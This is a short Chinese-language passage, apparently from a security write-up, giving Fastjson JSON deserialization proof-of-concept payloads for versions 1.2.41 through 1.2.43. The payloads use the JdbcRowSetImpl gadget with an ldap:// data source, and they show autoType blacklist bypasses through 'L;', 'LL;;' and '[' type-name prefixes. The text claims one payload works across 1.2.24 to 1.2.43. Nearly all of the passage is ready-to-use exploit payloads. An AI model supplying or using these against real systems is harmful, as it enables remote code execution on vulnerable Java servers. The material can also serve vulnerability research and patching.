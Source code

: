默认为关闭选项。  

```
{
&#34;@type&#34;:&#34;Lcom.sun.rowset.JdbcRowSetImpl;&#34;,
&#34;dataSourceName&#34;:&#34;ldap://127.0.0.1/123&#34;,
&#34;autoCommit&#34;:true
}
```

  
### Fastjson1.2.42  
  
在开启AutoType的情况下，这个poc不可以使用，autoType首先对传入的@type做了一次匹配，如果开头与结尾为
```
L;
```

  
，则过滤掉该字符  

```
{       
	&#34;@type&#34;:&#34;LLcom.sun.rowset.JdbcRowSetImpl;;&#34;,
	&#34;dataSourceName&#34;:&#34;ldap://127.0.0.1/123&#34;,
	&#34;autoCommit&#34;:true
}
```

### Fastjson1.2.43  
  
com.sun.rowset.JdbcRowSetImpl链绕过（需开启autoType），
```
LL;;
```

  
不可以使用  

```
{
&#34;@type&#34;:&#34;[com.sun.rowset.JdbcRowSetImpl&#34;[
{
,&#34;dataSourceName&#34;:&#34;ldap://127.0.0.1/123&#34;,
&#34;autoCommit&#34;:true
}
```

  
此
```
poc
```

  
通杀，
```
1.2.24-1.2.43
```
